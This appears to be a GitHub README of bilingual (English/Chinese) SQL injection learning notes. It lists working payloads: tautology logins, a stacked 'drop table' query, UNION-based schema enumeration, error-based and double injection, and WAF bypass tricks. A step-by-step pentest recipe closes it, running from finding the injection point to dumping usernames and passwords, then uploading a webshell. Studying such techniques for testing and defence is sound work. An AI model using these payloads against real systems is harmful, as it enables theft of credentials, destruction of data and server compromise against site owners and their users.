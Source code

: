 # SQLinjection  
SQL is a famous database engine which is used with web server. In this situation, we can inject some SQL based code to get what we want <3.  
[Remember, practice makes perfect!](http://www.tutorialspoint.com/mysql_terminal_online.php)   
  
### Basic injection  
select password from users where name = '$id';  
So, what can we insert into $id?  
```sql  
5566 or 1=1 --  
5566; drop table hello  // execute drop table on second line  

rafael' or 1=1 --  // select password from users where name = 'rafael' or 1=1 --';  
rafael' or ''='    // select password from users where name = 'rafael' or ''=''; 
```  
  
### Union based  
Try on terminal what will **SELECT name, password FROM users WHERE id = 1 UNION SELECT 1, 2** happen?  
Ans: The union result will show as second result with matching column of name and password!  
Therefore, if we just want the info we need, we can make the first clause not exist...  
```sql
select name, password from users where id = 1 and 1 = 0 union select 1, 2;  
```
```sql
// 秀出當前的庫名,使用者
select name, password from users where id = 1 and 1 = 0 union select database(), system_user();
```
```sql  
// 可以得到目前資料庫下的表名,欄位名  
... union select column_name, table_name from information_schema.columns where table_schema=database(); 
```
```sql
// 也可以得到其他資料庫的名字!  
... union select table_schema, table_name from information_schema.columns;  
// 我的 k朋友說: 尋找 資料庫就應該用schemata, 回傳才不會重複而且有效率
... union select group_concat(schema_name) from information_schema.schemata;  // group_concat會將結果合併成一行,我們甚至不需要limit
```
```sql
// 可以得到所有table和column的名字 
... union select table_name, column_name from information_schema.columns;
```
```sql
// 回傳的結果太多 , 我們可以用 limit加以限制
// 網頁常常只能show唯一的結果
... union select table_name, column_name from information_schema.columns limit 1, 1;  
```  
```sql  
// 在做union select時如何知道columns的數量  
? id =' or 1=1 order by N--+    // N一筆一筆增加直到頁面無法正確顯示, --+註解掉後面的條件, +是代表註解後面要有空白!
```
[What's in information_schema.columns?](https://dev.mysql.com/doc/refman/5.7/en/columns-table.html)  
**group_concat() is also a litte trick.**

### Blind based   
When we cannot show results what we want, we still can find whether it exists or not.  
**True**: Web page shows normal.  
**False**: Web page shows error or blank.  
```sql  
... exists (select * from table);  // 配合 AND使用
```

### Time based  
Wait for my first time practice ><...
  
### Error based  
* Analyze the error message  
```sql
My payload: ?id = 2'
Error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''2'') LIMIT 0,1' at line 1
```
看到**near**和**at**的字眼，我們可以刪除左右的單引號，剩下的sql語句應是: ```'  2'  ') LIMIT 0,1```  
因此，注入語句應該是: ```') or 1=1--+```  
* Double injection 
```sql
/**
we need:
count()
concat()
floor(), rand()
group by
**/
?id = 1' union select count(*),1,concat((select database()),'~',floor(rand()*2))as a from information_schema.schemata group by a--+
```
The result will also show luckly XD.
  
### WAF bypass
WAF is a defender for web.  
繞過手勢:  
- No 'space'  
  - ```select/**/username/**/from/**/users;```
  - ```union select 1,2``` -> ```union(select(1),2)```
- No 'select'...  
  - ```大小寫混淆 e.g. SelecT``` 
- No comma ','  
  - ```union select 1,2,3``` -> ```union select * from ((select 1)a join (select 2)b join (select 3)c);```   
- Encode your payload  
  - ```URL-ENCODE, HEXIDECIMAL, UNICODE```
  
### Webshell  
Based on the provilege of db user, we can upload shell to read or write to db.  
  
### Trick of Pentesting  
Here are some tricks of pentesting, step by step from find the vulnerability to exploit it!  
1. SQL vulnerability? injection point?  
```sql
1' or 1"
```
這裡, 我們要判斷出sql漏洞的存在與否, 並且從error message判斷原生語句 

2. Number of columns   
```sql
1' order by N--+   // 不斷增加N的數量, 直到頁面顯示錯誤
```
這裡我們就可以確認query的字段數, union select用起來也比較方便  

3. Where are the SNAKES we want?  
```sql
1' and 1=2 union select 1,2,...N--+   // 加以確認我們注入的東西會出現在哪裡
```  

4. First, we need to know some basic information...   
```sql
...union select user(),database(),version(), @@version_compile_os--+  // 後面兩個分別是資料庫版本以及作業系統版本
```  

5. Start the exciting part...  
```sql
...union select 1,2,...,group_concat(schema_name) from information_schema.schemata--+  // get all database name
```  
```sql
...union select 1,2,...,group_concat(table_name) from information_schema.tables where table_schema='FUCK'+--+  
// FUCK那邊也可以用hex表示
```
```sql
...union select 1,2,...,group_concat(column_name) from information_schema.columns where table_name='users'+--+
// 這邊還是比較喜歡用table_schema,如果懶得決定要鎖定哪張表XD...
```
```sql
// 最終目的
1' and 1=2 union 1,2,...,group_concat(username,password) from users+--+  
```  
6. After get username and password to login, we can write a webshell to upload!
